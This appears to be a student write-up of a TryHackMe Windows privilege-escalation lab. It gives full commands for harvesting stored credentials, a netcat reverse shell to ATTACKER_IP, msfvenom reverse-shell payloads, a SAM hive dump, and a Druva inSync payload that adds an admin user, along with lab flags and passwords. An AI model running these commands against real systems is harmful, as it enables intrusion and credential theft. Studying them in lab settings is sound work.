







Windows Privilege Escalation
Simply put, privilege escalation consists of using given access to a host with "user A" and leveraging it to gain access to "user B" by abusing a weakness in the target system. While we will usually want "user B" to have administrative rights, there might be situations where we'll need to escalate into other unprivileged accounts before actually gaining administrative privileges.
Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case.
Depending on the situation, we might need to abuse some of the following weaknesses:
Misconfigurations on Windows services or scheduled tasks
Excessive privileges assigned to our account
Vulnerable software
Missing Windows security patches
Windows Users
Windows systems mainly have two kinds of users. Depending on their access levels, we can categorize a user in one of the following groups:
Administrators These users have the most privileges. They can change any system configuration parameter and access any file in the system.
Standard Users These users can access the computer but only perform limited tasks. Typically, these users cannot make permanent or essential changes to the system and are limited to their own files.
Any user with administrative privileges will be part of the Administrators group. Standard users are part of the Users group.
Built-in Accounts (Special)
You will often hear about some special built-in accounts used by the operating system in the context of privilege escalation:
SYSTEM / LocalSystem An account used by the OS to perform internal tasks. It has full access to all files and resources with even higher privileges than administrators.
Local Service Default account used to run Windows services with minimum privileges. It uses anonymous network connections.
Network Service Default account used to run Windows services with minimum privileges. It uses the computer’s credentials to authenticate through the network.
These accounts are created and managed by Windows, and you won't be able to use them like regular accounts. Still, in some situations, you may gain their privileges by exploiting specific services.
Harvesting Passwords from Usual Spots
The easiest way to gain access to another user is to gather credentials from a compromised machine. Such credentials could exist for many reasons, including a careless user leaving them around in plaintext files, or even stored by some software like browsers or email clients.
When installing Windows on a large number of hosts, administrators may use Windows Deployment Services to automate the process. These unattended installations may contain plaintext admin credentials stored in the following files:
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
Look for XML structures like:
PowerShell History
When a user runs commands in PowerShell, they are saved in a history file. If a user runs a command that includes a password, it could be retrieved using:
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
This works from cmd.exe. In PowerShell, use: type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Saved Windows Credentials
Windows allows saving credentials for future use. To view them:
cmdkey /list
To try using one of the saved credentials:
runas /savecred /user:admin cmd.exe
IIS Configuration
Internet Information Services (IIS) may contain saved credentials in its config files.
Common locations:
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft. NET\Framework64\v4.0.30319\Config\web.config
To search for credentials like database connection strings:
type C:\Windows\Microsoft. NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
Retrieve Credentials from Software: PuTTY
PuTTY, a popular Windows SSH client, stores session data in the registry.
To retrieve proxy credentials:
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
Other tools that save credentials (such as web browsers, email clients, FTP clients, VNC, etc.) may have retrievable passwords via registry, config files, or GUI options.
Q1:

Once I had access to the system, I started by checking for any leaked credentials in the PowerShell command history. This is a common oversight by users and sometimes yields credentials used in previous commands.
I opened a Command Prompt and ran:
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
There, the password was visible for julia.jones
Q2:Next, I pivoted to look for sensitive information in IIS configuration files. These files often contain hardcoded credentials for databases or services. I ran this command:type "C:\Windows\Microsoft. NET\Framework64\v4.0.30319\Config\web.config" | findstr connectionString

The DB credentials are exposed within the config file as seen above.
Q3:For this one, we run cmdkey /list to view if there’s any saved credentials associated with different users. We notice there is one for mike.katz
To impersonate this user we use:runas /savecred /user:mike.katz cmd.exe
This allows us to spawn a shell as mike.katzThen we navigate to this person’s desktop and find the flag in a file:THM{WHAT_IS_MY_PASSWORD}
Q4:
I targeted credentials stored in the Windows registry by the PuTTY SSH client. Specifically, PuTTY stores session information (like proxy usernames and passwords) under the following key. I ran this command:reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
From the output of this command, we can spot a user named thom.smith with a password of !Pass2021
Other Quick Wins
Privilege escalation is not always a challenge. Some misconfigurations can allow you to obtain higher-privileged user access and, in some cases, even administrator access. These techniques are often more CTF-style than real-world scenarios, but if all else fails, they’re worth trying.
Scheduled Tasks
By inspecting scheduled tasks, you might find one that either:
Points to a missing binary, or
Uses a binary that is writable by unprivileged users
To list all scheduled tasks, use:
schtasks
To retrieve detailed information about a specific task:
schtasks /query /tn vulntask /fo list /v

Example output:Task To Run: shows the binary that gets executed.
Run As User: shows under which user the task runs.
We now check if our user can modify the binary with icacls c:\tasks\schtask.bat


Since Users have full access, we can overwrite the batch file to gain a reverse shell. Assuming nc64.exe is in C:\tools, we use this command:echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IPkali 4444 > C:\tasks\schtask.bat
AlwaysInstallElevated
Windows .msi installer files can be forced to run with elevated privileges if specific registry keys are enabled.
To check if the system is vulnerable, query both:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
If both keys are present and set to 1, you can exploit this by generating a malicious MSI file with msfvenom:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
We then start a listener and run the .msi on the target:msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
This provides a reverse shell with SYSTEM privileges, provided the regkeys are properly set.
Abusing Service Misconfigurations
Windows services are managed by the Service Control Manager (SCM), which is responsible for starting, stopping, and configuring services on a system. Each service runs under a specified user account and has an associated executable that SCM launches when the service starts. These service executables must implement specific functions to communicate with SCM, and not all executables are suitable to be started as services. The configuration for each service, including its executable and associated user account, is stored in the system registry.
Service Configuration and DACL
The configuration details for a service, such as the binary path (the executable) and user account, can be queried using the sc qc command. For example, using the following command to query the apphostsvc service:
sc qc apphostsvc
Output will show:
BINARY_PATH_NAME: Path to the executable (svchost.exe -k apphost)SERVICE_START_NAME: The user account under which the service runs (e.g., localSystem)
Each service has a Discretionary Access Control List (DACL), which defines who has permission to control the service, such as starting, stopping, or reconfiguring it. These permissions can be viewed using tools like Process Hacker.
Services' configurations and permissions are stored in the Windows registry under HKLM\SYSTEM\CurrentControlSet\Services\
Vulnerability from Insecure Permissions
An attacker can exploit weak permissions on a service's executable, allowing them to replace or modify it. This vulnerability enables the attacker to run arbitrary code with the privileges of the service's user account. For example, the Splinterware System Scheduler service can be exploited due to insecure permissions on the executable file.
To illustrate this, consider the following:
Query the service configuration:
sc qc windowsscheduler
Check the file permissions on the executable:
icacls C:\PROGRA2\SYSTEM1\WService.exe
If the executable has Everyone with modify permissions, an attacker can replace it with a payload, such as a reverse shell, generated using msfvenom. The attacker can then execute the payload with the service's privileges by restarting the service:
sc stop windowsscheduler
sc start windowsscheduler
This results in a reverse shell connection with the privileges of the service's user account (svcusr1).
Unquoted Service Paths
Another common vulnerability occurs when a service's executable path is unquoted. Windows services with unquoted paths containing spaces can cause the Service Control Manager (SCM) to misinterpret the executable path. This allows attackers to place malicious executables in locations that SCM will execute before the actual service binary.
sc qc "disk sorter enterprise"
**Output:**BINARY_PATH_NAME : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
In this case, due to the unquoted path, SCM might attempt to execute a file like C:\MyPrograms\Disk.exe, which could be a malicious payload placed by the attacker. If the folder containing the executable is writable, an attacker could exploit this vulnerability to gain higher privileges.
Insecure Service DACLs
In addition to insecure file permissions, if the Service DACL is misconfigured, an attacker may be able to reconfigure a service to point to an arbitrary executable. By modifying the service's binPath or service account, an attacker can elevate their privileges.
To check if a service's DACL allows modification, tools like AccessChk from Sysinternals can be used:
accesschk64.exe -qlc thmservice
If the attacker has SERVICE_ALL_ACCESS permissions, they can change the service's executable and account, as shown below:
Build a reverse shell payload:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
Move the payload to the target machine:
move C:\Users\thm-unpriv\rev-svc3.exe C:\MyPrograms\Disk.exe
Modify the service configuration:
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
Restart the service:
sc stop THMService
sc start THMService
This results in a reverse shell with SYSTEM privileges.
Abusing dangerous privileges
Windows Privileges
Windows privileges determine the rights an account has to perform specific system tasks. These can range from simple actions, like shutting down the machine, to more critical tasks, such as bypassing access controls defined by Discretionary Access Control Lists (DACLs). For attackers, the most valuable privileges are those that allow privilege escalation.
Checking Privileges
To view the privileges assigned to a user account, the command whoami /priv can be used. Some of the privileges may be exploited to gain unauthorized access or elevate privileges. A comprehensive list of exploitable privileges is available on the Priv2Admin GitHub project.
SeBackup / SeRestore Privileges
The SeBackup and SeRestore privileges allow users to read and write to any file on the system, bypassing any DACLs in place. This privilege is typically granted to users in the Backup Operators group. With these privileges, an attacker can copy the SAM (Security Account Manager) and SYSTEM registry hives to extract the local Administrator's password hash, potentially escalating their privileges.
Exploitation steps:
Log in with the THMBackup account, which has SeBackup and SeRestore privileges.
Use the whoami /priv command to verify privileges.
Backup the SAM and SYSTEM registry hives using these commands:
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
Then we copy these hives to the attacker machine using SMB.Then, we use Implacket’s secretsdump.py
Abusing vulnerable software
Abusing vulnerable software is a common privilege escalation technique in Windows environments. While operating systems may be patched regularly, third-party software often goes unpatched for long periods, presenting attackers with opportunities. Like vulnerable drivers, outdated software can expose elevation of privilege (EoP) paths.
You can use WMIC to list installed software and their versions:
wmic product get name,version,vendor
Once you have the version information, searching vulnerability databases like Exploit-DB, Packet Storm, or even Google can reveal known exploits.
Case Study – Druva inSync 6.6.3
The target server was running Druva inSync 6.6.3, which had a privilege escalation vulnerability reported by Matteo Malvica. The flaw originated from an incomplete patch of an earlier vulnerability in version 6.5.0 reported by Chris Lyne.
The application runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. RPC allows processes to expose procedures for remote execution. In Druva’s case, procedure #5 could be abused to execute any command with SYSTEM privileges.
Originally, versions ≤ 6.5.0 had no restrictions—any command could be executed. The intended use was to run specific binaries from the path:
C:\ProgramData\Druva\inSync4\
However, the patch only verified that the command string started with that path. Attackers could bypass this by using path traversal, e.g.:
C:\ProgramData\Druva\inSync4......\Windows\System32\cmd.exe
This would resolve to cmd.exe in System32, bypassing the restriction.
Exploit Overview
The exploit communicates with port 6064 using a simple RPC protocol:
Send a hello packet with a fixed string.
Indicate that we want to call procedure #5.
Send the length of the command.
Send the command itself.

Practical Payload Modification
The above default payload creates a pwnd user without admin rights. For privilege escalation, you can modify it to:
$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"
This creates a user pwnd with password SimplePass123 and adds it to the Administrators group.
Then, success can be verified using “net user pwnd” which will show the Local Group etc…
Tools of the Trade
Automated enumeration scripts can significantly reduce the time needed to identify potential privilege escalation vectors on Windows systems. While these tools can be powerful, it’s important to remember that automated enumeration can miss some opportunities, so manual verification remains essential.
WinPEAS
WinPEAS is a Windows privilege escalation enumeration tool that automates many of the manual checks discussed earlier. It runs a wide set of system commands to detect misconfigurations, vulnerable software, and escalation opportunities.
Because its output can be lengthy and hard to read, it’s good practice to redirect the output to a file for review:
C:> winpeas.exe > outputfile.txt
PrivescCheck
PrivescCheck is a PowerShell-based alternative to WinPEAS. It identifies common privilege escalation vectors without requiring you to run a binary.
If execution policy restrictions are enabled, bypass them before running:
PS C:> Set-ExecutionPolicy Bypass -Scope Process -Force
PS C:> . .\PrivescCheck.ps1
PS C:> Invoke-PrivescCheck
WES-NG (Windows Exploit Suggester – Next Generation)
WES-NG is a Python-based tool that suggests potential privilege escalation exploits based on missing Windows patches. Unlike WinPEAS, it runs on your attacking machine (Kali, AttackBox, etc.) rather than on the target, helping avoid antivirus detection.
C:> systeminfo > systeminfo.txt
After running this command, transfer “systeminfo.txt” to the attacking machine.
Then, update WES-NG’s vulnerability database:
$ wes.py --update
And finally run the analysis:
$ wes.py systeminfo.txt
Metasploit Local Exploit Suggester
If you already have a Meterpreter session, you can use Metasploit’s built-in local_exploit_suggester to detect possible privilege escalation exploits for the current target:
meterpreter > run post/multi/recon/local_exploit_suggester
This module checks the target’s OS version and installed patches against Metasploit’s exploit database.